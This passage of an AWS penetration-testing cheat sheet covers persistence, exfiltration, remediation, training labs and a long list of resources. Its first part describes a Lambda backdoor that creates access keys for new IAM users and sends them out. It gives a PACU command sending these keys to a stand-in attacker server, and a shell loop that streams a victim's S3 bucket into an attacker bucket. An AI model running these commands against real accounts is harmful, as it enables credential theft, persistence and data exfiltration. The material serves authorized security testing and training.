iam__backdoor_assume_role (PACU)
```

11. Using Lambda
Using lambda we can exfiltrate credentials
--> Lambda function will be trigger on every new user creation to add a new set of access keys to that user, then exfiltrates thosecredentials to a server we specified  
- The attacker creates a malicious Lambda function in a target account1.
- The attacker creates a trigger to run the Lambda function every time a new IAM user is created
- The attacker sets up a listener on a server that they control, which will wait for credentials
- New user is created within the environment
- The attacker's Lambda function is triggered
- The function adds a set of access keys to the newly created user
- The function makes an HTTP request to the attacker's server with the access key just created

--> Lambda adds to the equation is the ability to do persistent in continuously manner.
--> For a function to trigger an event 
	- CloudWatch event rule must be created
	- Also need cloudtrail to be enabled in **us-east-1** region
		--> Because function is triggered by an IAM event (*iam:CreateUser*), and IAM events are only delivered to **us-east-1** CloudWatch Events.

--> **OR** use PACU module : *lambda__backdoor_new_users*
```
run lambda__backdoor_new_users --exfil-urlhttp://attacker-server.com/
run lambda__backdoor_new_users --cleanup
```

<br/>

## Credential Access
#### Cloud Shadow Copy 
Cloud version of the Shadow Copy attack against domain controllers running in AWS
- https://github.com/Static-Flow/CloudCopy

## Exfiltration
#### S3 Streaming Copy
- https://hackingthe.cloud/aws/exploitation/s3_streaming_copy/
```
for files in $(cat filesBuckets.txt); do aws s3 cp --profile victim-greg.alvin s3://XXXX-production-deployment/$files - | (aws s3 cp --profile attacker-bell - s3://recept-external-bucket/$files ); done
```

#### S3 Replication Policy
- https://hackingthe.cloud/aws/exploitation/s3-bucket-replication-exfiltration/
- https://bleemb.medium.com/data-exfiltration-with-native-aws-s3-features-c94ae4d13436


## Impact
#### S3 Ransomware
- https://rhinosecuritylabs.com/aws/s3-ransomware-part-1-attack-vector/

## Report / Remediation

The following resources can help during report and to provide precise recommendation regarding findings or vulnerabitilies to clients.  
- https://github.com/nccgroup/ScoutSuite/tree/master/ScoutSuite/providers
- https://avd.aquasec.com/cspm/

#### Resource : Preventing Security Misconfiguration
https://rhinosecuritylabs.com/cloud-security/aws-identity-access-management-preventing-security-configuration/  


## AWS Attack Vectors
- Data Exposure (S3 bucket)
- aws Root account
- AWS IAM users and excessive permissions/rights
- API / Storage keys /Access keys / SSH keys exposure / credentials
- Managed services
- Network
- Instances (Virtual Machines, EC2)
- Custom applications & 3rd party software
- Access Control misconfiguration
- Managed service misconfiguration
- Network security misconfiguration
- Entry points to the internal network
- Instance misconfiguration
- Software security holes
- Insecure custom applications


<br/>

# Incident Response
#### Automated Attack Simulation in AWS
- https://github.com/WithSecureLabs/leonidas

# Training
## CloudGoat
- https://rhinosecuritylabs.com/aws/cloudgoat-vulnerable-design-aws-environment/
- https://rhinosecuritylabs.com/aws/introducing-cloudgoat-2/
- https://github.com/RhinoSecurityLabs/cloudgoat

## Certification Pentester Academy
- https://storage.googleapis.com/landingpages-pa.appspot.com/bootcamps/Cloud_Security_AWS_Edition_Bootcamp.pdf
- https://bootcamps.pentesteracademy.com/course/cloud-security-aws-jun-21

## SANS SEC 588 : Cloud Penetration Testing 
- https://www.sans.org/cyber-security-courses/cloud-penetration-testing/
- https://www.sans.org/brochure/course/cloud-penetration-testing/3635

## Damn Vulnerable Cloud Application
- https://medium.com/poka-techblog/privilege-escalation-in-the-cloud-from-ssrf-to-global-account-administrator-fd943cf5a2f6
- https://github.com/m6a-UdS/dvca

## NCC Group : SadCloud
Insecure AWS infrastructure using Terraform  
- https://github.com/nccgroup/sadcloud

## Flaws Challenge
- http://flaws.cloud/

## Flaws Challenge 2
- http://flaws2.cloud/

## Serverless goat
Serverless application demonstrates common serverless security flaws as described in the Serverless Security Top 10 Weaknesses guide https://github.com/puresec/sas-top-10  

https://github.com/OWASP/Serverless-Goat

<br/>

# AWS Pentest : Resources
	
#### AWS Security Full Repo
https://github.com/jassics/awesome-aws-security

#### Github repo - cloud penetration testing
- https://github.com/kh4sh3i/cloud-penetration-testing

### Cloud Security - Red Team Management
- https://github.com/CyberSecurityUP/Red-Team-Management/tree/main/Cloud%20Security

#### Master Thesis : Penetration Testing of AWS-Based environments
https://essay.utwente.nl/76955/1/Szabo_MSc_EEMCS.pdf

#### OWASP AWS Security
https://owasp.org/www-pdf-archive/Aws_security_joel_leino.pdf

#### Swissky repos : Cloud AWS Pentest
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Cloud%20-%20AWS%20Pentest.md

#### Check AWS and recommandation
https://avd.aquasec.com/cspm/#aws
https://avd.aquasec.com/cspm/#azure
https://avd.aquasec.com/cspm/#google

#### SANS WorkShop : Cloud Penetration Testing
https://www.youtube.com/watch?v=fiSJQfiS21c (Moses Frost)

#### Cloud Services Enumeration - AWS, Azure and GCP
https://notsosecure.com/cloud-services-enumeration-aws-azure-and-gcp/

#### Pivoting in Amazon Clouds
https://andresriancho.github.io/nimbostratus/pivoting-in-amazon-clouds.pdf

#### Cyberark : Cloud shadow admin
https://www.cyberark.com/resources/threat-research-blog/the-cloud-shadow-admin-threat-10-permissions-to-protect
https://github.com/Static-Flow/CloudCopy

#### IMDSv2
https://aws.amazon.com/fr/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/  

https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650  

#### DaftHack : AWS Pentest CheatSheets
https://github.com/dafthack/CloudPentestCheatsheets/blob/master/cheatsheets/AWS.md

#### Hacking the Cloud : AWS
https://hackingthe.cloud/aws/

#### Amazon EC2 keys via XSS
https://www.ionize.com.au/post/stealing-amazon-ec2-keys-via-an-xss-vulnerability
http://10degres.net/aws-takeover-through-ssrf-in-javascript/

#### SSRF in Elastic BeanStalk
https://notsosecure.com/exploiting-ssrf-in-aws-elastic-beanstalk/

#### S3 Ransomware attack
https://rhinosecuritylabs.com/aws/s3-ransomware-part-1-attack-vector/
https://rhinosecuritylabs.com/aws/s3-ransomware-part-2-prevention-and-defense/
https://ermetic.com/blog/aws/new-research-the-urgent-threat-of-ransomware-to-s3-buckets/
https://s3.amazonaws.com/bizzabo.file.upload/PtZzA0eFQwV2RA5ysNeo_ERMETIC%20REPORT%20-%20AWS%20S3%20Ransomware%20Exposure%20in%20the%20Wild.pdf

#### Phishing users with MFA : AWS environment
https://rhinosecuritylabs.com/aws/mfa-phishing-on-aws/
https://github.com/drk1wi/Modlishka

#### Finding Secrets In Publicly Exposed EBS Volumes
https://www.youtube.com/watch?v=-LGR63yCTts

#### S3 ACL Deep Dive 
https://labs.detectify.com/2017/07/13/a-deep-dive-into-aws-s3-access-controls-taking-full-control-over-your-assets/

#### AWS Pentesting YouTube playlist
https://www.youtube.com/watch?v=0PhKK-GHgBI&list=PLbT8rDUmot22PkfO-zJNKOwiE1dSkmGDP

#### Introduction to Penetration Testing AWS
https://akimbocore.com/article/introduction-to-penetration-testing-aws/
	
#### Pentest book repository
https://github.com/six2dez/pentest-book/blob/master/enumeration/cloud/aws.md

#### Securing AWS Discover Cloud Vulnerabilities via Pentesting Techniques - BHIS
https://www.youtube.com/watch?v=fg_hey18tio
